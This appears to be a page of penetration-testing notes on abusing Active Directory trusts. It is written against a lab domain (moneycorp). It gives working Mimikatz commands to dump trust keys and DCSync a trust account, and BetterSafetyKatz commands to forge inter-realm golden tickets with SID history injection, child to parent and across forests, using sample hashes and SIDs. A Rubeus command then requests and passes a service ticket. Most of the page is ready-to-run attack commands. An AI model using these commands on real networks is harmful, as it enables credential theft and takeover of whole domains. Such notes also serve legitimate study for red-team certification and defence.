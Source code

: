 # Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.\\

We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the Inter-Realm Trust Key.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key.

### Get the trust key

The trust key is required to forge the Inter-Realm TGT.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

### Forge the Inter-Realm TGT

Note that krbtgt can be used instead of the trust key.

{% code overflow="wrap" %}
```powershell
# Child to parent 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Across Forest
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
{% endcode %}

| Options                            |                                                  |
| ---------------------------------- | ------------------------------------------------ |
| <pre><code>/domain:
</code></pre>  |                                                  |
|                                    | FQDN of the current domain                       |
| <pre><code>/sid:
</code></pre>     |                                                  |
|                                    | SID of the current domain                        |
| <pre><code>/sids
</code></pre>     |                                                  |
|                                    | SID to be injected to the SID history            |
| <pre><code>/rc4:
</code></pre>     |                                                  |
|                                    | RC4 of the trust key                             |
| <pre><code>/krbtgt:
</code></pre>  |                                                  |
|                                    | krbtgt hash can be used instead of the Trust Key |
| <pre><code>/user:
</code></pre>    |                                                  |
|                                    | User to impersonate                              |
| <pre><code>/service:
</code></pre> |                                                  |
|                                    | Target service in the parent domain              |
| <pre><code>/target:
</code></pre>  |                                                  |
|                                    | FQDN of the parent domain                        |
| <pre><code>/ticket
</code></pre>   |                                                  |
|                                    | Path to save the ticket                          |

### Request the TGS and pass it

{% code overflow="wrap" %}
```powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt
```
{% endcode %}
